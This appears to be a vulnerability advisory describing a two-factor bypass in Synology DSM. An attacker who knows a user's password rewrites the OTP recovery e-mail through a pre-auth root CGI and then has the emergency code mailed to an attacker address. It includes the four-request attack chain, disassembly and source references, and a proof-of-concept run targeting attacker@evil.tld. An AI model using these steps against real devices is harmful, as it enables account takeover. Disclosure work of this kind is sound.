




A Synology DSM account OTP recovery e-mail address can be changed with the account password alone, letting an attacker redirect the emergency 2FA code to their own mailbox and log in. Four requests, no session:

1. `otp.cgi action=saveMail` rewrites the victim's recovery e-mail to an attacker address, as root.
2. `SYNO.API.Auth login` (password only) returns "2FA required" and clears the gate on step 3.
3. `SYNO.Core.OTP.Mail send` mails the 6-digit emergency code to the attacker address.
4. `SYNO.API.Auth login` with the password and that code gives a full session.

## Impact

* Full remote takeover of any 2FA-protected DSM account

**Preconditions**:

* Attacker knows the victim's password
* Victim is a local or domain account (LDAP names contain `@`, which `OTPUtils::SetUserMail` refuses).
* `allow_2fa_device_lost_option` enabled. Absent from `synoinfo.conf` by default, so it defaults to enabled.

**Affected products**

* DSM 7.4.1-90080 and DSM 7.3.2-86009 (both versions reproduced on an RS1221+ appliance). Code is architecture independent.
* Earlier versions likely affected too: `SecureSignIn-x86_64-1.1.7-0455`, bundled and enabled by default on DSM 7.2 and later.

## Further details

`otp.cgi` is setuid root (`-rwsr-x--- root/system`) and reachable pre-auth: nginx routes anything containing `.cgi` to synoscgi ahead of the deny rules, and the CGI's permission check is stubbed to return true (its `query.api` entry carries no `authLevel`, and the `CheckPermission` vtable slot is overridden):

```
$ objdump -d otp.cgi          # vtable slot +0x18 -> 0x2400
2400: endbr64
2404: mov eax,0x1
2409: ret
```

`action=saveMail` rewrites the recovery e-mail:

* It authenticates with the OTP factor disabled: `AuthUserAccount(handler, user, passwd, false, true)` (`otp.cgi.c:611`). The trailing `true` becomes the OTP-skip sentinel `(true ^ 1) = 0` passed to `SynoCgiTestLoginEx2`, which reaches the `syno-otp-type-skip-check` PAM path (`pam_syno_otp.so.c:1232`), so the correct password alone passes even with 2FA enforced.
* It skips the `ResetCredentialsByName` privilege drop that every other action runs (`otp.cgi.c:628`), so `OTPUtils::SetNormalUserMail` writes `user+0x28 = strdup(mail)` with euid 0 and no format check (`libsynoOTP.so.c:8077`).

`SYNO.Core.OTP.Mail send` (`authLevel: 0`) then mails a 6-digit emergency code to that address (`libsynoOTP.so.c:11861-11863`). It is gated by `SynoCgiIsPasswdChangedNotLogin`, which fails the send with error `otp_err_pwd_chg_not_login` until a prior password login; a password-only `SYNO.API.Auth login` returning "2FA required" clears it. `pam_syno_otp` accepts the emergency code as the second factor, so the final password + code login completes.

## Proof of concept

`poc.py` runs steps 1 to 3. Then log in with the victim's password and the 2FA code delivered to the attacker mailbox.

```
$ python3 poc.py --url https://nas:5001 --victim-user alice \
      --victim-password 'Passw0rd!' --attacker-mail attacker@evil.tld
[1] rewrite victim recovery e-mail: {"data":{"success":true},"success":true}
[2] password login, clears the emergency-code gate: {"error":{"code":403},...}
[3] mail emergency 2FA code to attacker: {"data":{"success":true},"success":true}

Log in with the victim's password and the 2FA code sent to attacker@evil.tld.
```








